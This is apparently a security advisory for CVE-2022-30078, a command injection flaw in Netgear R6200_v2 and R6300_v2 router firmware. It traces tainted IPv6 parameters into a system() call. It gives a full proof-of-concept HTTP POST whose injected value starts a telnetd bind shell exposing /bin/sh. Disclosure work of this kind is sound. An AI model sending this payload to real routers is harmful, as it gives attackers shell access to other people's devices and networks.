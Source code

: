 # Command injection vulnerability in Netgear R6200_v2 and R6300v2 routers
## Basic information
* CVE-ID：CVE-2022-30078
* Vendor: Netgear
* Product: R6200_v2 and R6300_v2
* Firmware version: All firmware version including the latest R6200v2-V1.0.3.12_10.1.11 and R6300v2-V1.0.4.52_10.0.93
* Firmware download link: https://www.downloads.netgear.com/files/GDC/R6200V2/R6200v2-V1.0.3.12_10.1.11.zip  
https://www.downloads.netgear.com/files/GDC/R6300V2/R6300v2-V1.0.4.52_10.0.93.zip
* Type: Insecure permissions - code execution

## Vulnerability description
Vulnerability exists in the binary `/sbin/acos_service` in all R6200_v2 and R6300_v2 firmware versions including the latest R6200v2-V1.0.3.12 and R6300v2-V1.0.4.52. It might also infect some other products, which is recently not analyzed.  
Taking the latest R6200_V2_1.0.3.12 firmware as an example, the four variables `ipv6_wan_ipaddr`, `ipv6_lan_ipaddr`, `ipv6_wan_length`, and `ipv6_lan_length` are passed into a function at offset 0x1B070.  
![vulnerable function call](./CVE-2022-30078.assets/caller_code.png)  
Later, by analyzing the if statement, we can further confirm that these four variables can lead to command injection vulnerabilities. These parameters are passed into a `sprintf` function by the format string `%s`. Then, the value is passed to a `system`, which leads to a command injection vulnerability.   
![the vulnerable place](./CVE-2022-30078.assets/vuln_code.png)  
Through further attemps, we found that remote authenticated attackers can modify the value of the vulnerable parameters in website http://192.168.1.1/IPV6_fixed.htm by sending a modified request. As the vulnerable parameters are directly saved in nvram after sending the request, attackers can then execute arbitrary remote command as they controlled the parameter of a `system` call.  
After visiting the web page and sending a `POST` request, if we set the `ipv6_wan_ipaddr` parameter of the request to be `%24%28telnetd+-l+%2Fbin%2Fsh+-p+1235+-b+0.0.0.0%29`, we can actually execute command which `$(telnetd -l /bin/sh -p 1235-b 0.0.0.0)`.  
A potential PoC is shown below:  
```
POST /ipv6_fix.cgi?id=2068267834 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1087
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4x
Connection: close
Referer: http://192.168.1.1/IPV6_fixed.htm
Cookie: XSRF_TOKEN=1222440606
Upgrade-Insecure-Requests: 1
apply=Apply&login_type=Fixed&IPv6WanAddr1=2001&IPv6WanAddr2=3CA2&IPv6WanAddr3=010F&IPv6WanAddr4=00A1&IPv6WanAddr5=121C&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0010&ProfixWanLength=6&IPv6Gateway1=2001&IPv6Gateway2=3CA2&IPv6Gateway3=010F&IPv6Gateway4=00A1&IPv6Gateway5=121C&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0002&DAddr1=&DAddr2=&DAddr3=&DAddr4=&DAddr5=&DAddr6=&DAddr7=&DAddr8=&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&PDAddr5=&PDAddr6=&PDAddr7=&PDAddr8=&IpAssign=auto&IPv6LanAddr1=3113&IPv6LanAddr2=3CA2&IPv6LanAddr3=010F&IPv6LanAddr4=001A&IPv6LanAddr5=121B&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0001&ProfixLanLength=6&ipv6_wan_ipaddr=%24%28telnetd+-l+%2Fbin%2Fsh+-p+1235+-b+0.0.0.0%29&ipv6_lan_ipaddr=3113%3A3CA2%3A010F%3A001A%3A121B%3A0000%3A0000%3A0001&ipv6_wan_length=6&ipv6_lan_length=6&ipv6_pri_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_sec_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_wan_gateway=%24%28telnetd+-l+%2Fbin%2Fsh+-p+1234+-b+0.0.0.0%29&ipv6_enable_dhcp=&ipv6_proto=fixed
```
An evidence of the vulnerable is shown below:  
![reproduction evidence-ipv6_wan_ipaddr](./CVE-2022-30078.assets/reproduction_ipv6_wan_ipaddr.png)  
Similarly, we can also change the other three parameters to construct similar commands, the evidence of the attacks using these parameters are shown as below:
![reproduction evidence-ipv6_lan_ipaddr](./CVE-2022-30078.assets/reproduction_ipv6_lan_ipaddr.png)  
![reproduction evidence-ipv6_wan_length](./CVE-2022-30078.assets/reproduction_ipv6_wan_length.png)  
![reproduction evidence-ipv6_wan_length](./CVE-2022-30078.assets/reproduction_ipv6_lan_length.png)  

## Acknowledgment
This vulnerability credits to [@maybethetricker](https://github.com/maybethetricker)(Runyuan Mei) and [@river-li](https://github.com/river-li)(Zichuan Li) from Wuhan University.
